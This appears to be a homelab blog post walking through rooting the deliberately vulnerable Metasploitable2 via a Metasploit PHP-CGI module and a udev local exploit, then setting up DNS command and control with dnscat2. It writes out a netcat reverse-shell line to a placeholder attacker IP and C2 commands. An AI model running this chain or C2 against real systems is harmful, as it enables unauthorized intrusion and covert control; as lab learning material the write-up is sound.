 ```yaml
---
title: A quick refresher of the homelab
categories: [Homelab]
tags: [homelab, dns, dnscat2] # TAG names should always be lowercase
img_path: /assets/img/homelab
---
```


[main](/posts/homelab_intro)

## Gain `root` access on metasploitable2
### Gain `www-data` user access:
```bash
# www-data service user access:
  # searchsploit
  searchsploit apache 2.2.8 # out: Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution 
```
msfconsole - metasploit:
	RHOSTS & RPORT- Address & PORT to access the webserver. 
```bash
use php_cgi
set RHOSTS 192.168.189.254
set RPORT 8080
set LPORT 80
run
```

### Root Access:
netcat listener on attacking machine: `sudo netcat -nlvp 443`

```bash
# meterpreter
cd /tmp
upload /usr/share/exploitdb/exploits/linux/local/8572.c ./exp.c
shell

# shell on meterpreter # exp needs "run"
echo '#!/bin/sh' > run
echo '/bin/netcat -e /bin/sh <attacker_ip> 443' >> run
gcc exp.c -o exp
chmod +x exp
cat /proc/net/netlink # search for a positive pid (udev's pid minus 1)
./exp 2708 # say 2708 the pid
```

netcat listener on attacking machine: `whoami`

A better shell (on the attacking machine):
```bash
python -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
<ctr+z>
stty raw -echo; fg
```
> You should have the root access
{: .prompt-info}

## DNS based command and control
1. Setup an Authoritative DNS server
2. Install dnscat2 on the server and client
3. Get command and control over DNS

Network traffic:
![dns](dnscat2_traffic_blur.png)

## Setup an authoritative DNS server:
If you are using AWS: [STOK’s video](https://youtu.be/p8wbebEgtDk)
Else, (Still, watch that. It's a good learning src.) I made one: 
1. Spin up a droplet. [droplet_setup]
2. [Get a domain name](/posts/c2_over_dns/#get-a-domain-name) and point the nameservers to digitalocean nameservers
3. Setup the domain on digitalocean
4. Set low ttl for each DNS record type (It may take some time for DNS propagation.)

## C2 using dnscat2
Download dnscat2: `git clone https://github.com/iagox86/dnscat2.git`

Server:
```bash
# mkdir tools; cd tools; git clone dnscat2; cd dnscat2/server
sudo gem install bundler
sudo chown -R <user_name> /var/lib/gems
sudo apt install ruby-dev make gcc
bundle install
sudo ruby ./dnscat2.rb example.com # your domain name
dnscat2> start --dns port=53531,domain=example.com # you'll get the secret value

# on client
sudo ./dnscat port=53531 --secret=<secret> example.com # or
sudo ./dnscat --dns port=53531,server=<ip>--secret=<secret>

# on server
dnscat2>
	windows
	window -i 1 # session number of the connection
	help # get shell
	shell
	# ctr+z to escape
	windows # list
	window -i 2 # go to the sh window
```

## Active Directory setup
[Active Directory on Azure](https://kamran-bilgrami.medium.com/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f)

- I learnt AD through PEH course by TCM security. I highly recommend going through the course if you are serious about active directory pentesting. The above link is a recommendation by Heath Adams, and it was a great source for setting up your AD network on Azure (similar setup locally). 

Update: The link is now for medium members only. So, go with: https://refabr1k.gitbook.io/oscp/windows/attacking-ad/ad-hacking-lab-setup if you can't use the medium link.
